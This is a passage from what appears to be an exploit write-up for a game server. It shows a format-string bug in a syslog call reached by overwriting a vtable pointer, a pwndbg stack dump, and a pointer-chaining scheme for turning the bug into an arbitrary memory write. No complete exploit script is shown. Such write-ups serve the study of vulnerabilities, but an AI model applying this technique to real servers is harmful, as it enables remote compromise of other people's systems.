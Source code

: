 From its signature, `void syslog(int priority, const char *format, ...);`  
we can see that its second argument is a format string.
If we'd take a look at `man syslog(3)` we'd see:

> The remaining arguments are a format, as in printf(3),

I assume most of you are familiar with format string attack, if not, give it a read [here](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) or Google it.

This is awesome!
Can potentially be escalated into arbitrary write*-ish*.

I padded `messages` with `AAA...` until I reached the vtable's memory,
at which point I sent the `SV_THROWNADE` and wrote `syslog`'s address, then I took a look at the stack to see what interesting pointers are there, and to which memory can I write.

```
pwndbg> b syslog if strstr(fmt, "hello")
pwndbg> stack 500
00:0000│ rsp    0x7ffc5044d418 —▸ 0x40fc22 (buildworldstate()+946) ◂— mov    rdi, qword ptr [rip + 0x3fa77]
01:0008│        0x7ffc5044d420 —▸ 0x1790c40 —▸ 0x1790a40 ◂— 0x2f02c1802f180058 /* 'X' */
02:0010│        0x7ffc5044d428 ◂— 0x1b
03:0018│        0x7ffc5044d430 —▸ 0x1790c58 —▸ 0x1790a40 ◂— 0x2f02c1802f180058 /* 'X' */
04:0020│        0x7ffc5044d438 —▸ 0x1790c48 —▸ 0x178ed30 ◂— 0x50e031e7c2800004
05:0028│        0x7ffc5044d440 —▸ 0x1790c54 ◂— 0x1790a400000000a /* '\n' */
06:0030│        0x7ffc5044d448 —▸ 0x1790a40 ◂— 0x2f02c1802f180058 /* 'X' */
07:0038│ r10    0x7ffc5044d450 —▸ 0x17a63d0 ◂— 0x4af802f02c1802f
08:0040│ r9     0x7ffc5044d458 —▸ 0x1790c40 —▸ 0x1790a40 ◂— 0x2f02c1802f180058 /* 'X' */
09:0048│ rsi-4  0x7ffc5044d460 ◂— 0x553b00000000
0a:0050│        0x7ffc5044d468 ◂— 0xa00000000
0b:0058│        0x7ffc5044d470 —▸ 0x17a9070 —▸ 0x1791830 —▸ 0x1790f40 —▸ 0x17970d0 ◂— ...
0c:0060│        0x7ffc5044d478 ◂— 0xa9
0d:0068│        0x7ffc5044d480 —▸ 0x7ffc5044d4b0 ◂— 0x7f9800000003
0e:0070│        0x7ffc5044d488 ◂— 0x1
0f:0078│        0x7ffc5044d490 ◂— 0x5
10:0080│        0x7ffc5044d498 —▸ 0x7ffc5044d4d0 ◂— '192.168.1.40'
...
```

Unfortunately, on the stack itself there wasn't any buffer that I can control.  
This is where I had to get creative.

While there isn't any buffer that I can write to on the stack at that moment of the execution, there are a lot of pointers on the stack to other locations on the **stack** itself. What I decided to do is, using those pointers, write an address to somewhere on the stack using that pointer, and then write to that value by referencing the stack memory itself.

```
// Goal: Write VAL into ADDR.

// Stack
A -> B
B -> C

1. Write ADDR onto the stack using A.
A -> B
B -> ADDR <- ????

2. Write VAL into ADDR using B.
A -> B
B -> ADDR <- VAL
```
